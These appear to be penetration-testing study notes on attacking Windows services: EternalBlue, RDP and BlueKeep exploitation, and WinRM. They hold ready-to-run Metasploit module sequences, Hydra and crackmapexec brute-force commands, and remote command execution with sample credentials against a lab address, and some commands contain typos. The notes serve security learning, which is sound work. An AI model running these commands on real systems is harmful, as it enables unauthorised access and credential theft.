     * Use windows/smb/ms17_010_eternalblue
        * Set lhosts; set lport; set hosts target
        * Run
    * Gets a meterpreter session

## Exploiting RDP
* Service detection
    * Nmap -sV target
* In case RDP not running on standard port
    * You can manually connect and check if the service is running on desired port
    * Or metasploits auxiliary/scanner/rdp/rdp_scanner can be used to detect rap service
* Brute force creds
    * Hydra -L /usr/share/metasploit-framework/data/wordlists/common_user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://target_ip -s <port>

## Exploit windows CVE-2019-0708 RDP Vulnerability (BlueKeep)

* Allows RCE by exploit RDP protocol
    * Unauthorized access to kernel memory
    * Since kernel is used, the resulting RCE will be privileged
* A lot of proof of concept for this CVE are actually malicious , so be careful. Only use verified exploits
* Perform service detection to verify the details on the target
* Metasploit
    * Search bluekeep
    * There are two options: auxiliary & the exploit
    * Use auxiliary/scanner/rdp/cve_2019_0708_BlueKeep; set rhosts; run
        * Tells if the target is vulnerable
    * Use exploit/windows/rdp/cve_2019_0708_BlueKeep_rce; ret rhosts; show targets; set target 2; exploit
        * Since this exploit uses a kernel exploit, there are high chances that it crashes the target system, so be careful
        * If successful will get you a elevated meterpreter session

## Exploiting WinRM

* Windows Remote management protocol
    * Manage systems over HTTPs
    * Runs on 5985 (HTTP) or 5986 (HTTPS)
    * Usually protected by Authentication
* Tools
    * crackmapexec
    * Evil-winrm.rb
    * Metasploit
* Service detection, nmap default 1000 ports does include winRM, so it has to be explicitly provided
    * Nmap -sV -p 5985,5986 target_ip
* To exploit winRM, valid credentials are required
* Bruteforce creds
    * crackmapexec winery target_ip -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_password.txt 
* After creds are achieved, commands can be executed directly by crackmapexec
    * crackmapexec winrm 10.3.29.181 -u administrator -p tinkerbell -x "whoami"
* A cmd shell can be achieved by using evil-winrm.rb
    * evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.3.29.181
* Metasploit has exploits for winRM as well
    * Search winRM
    * Use exploit/windows/winrm/winrm_script_exec; set rhosts; set username; set password; set force_vbs true; exploit
    * The above will get you a meterpreter session
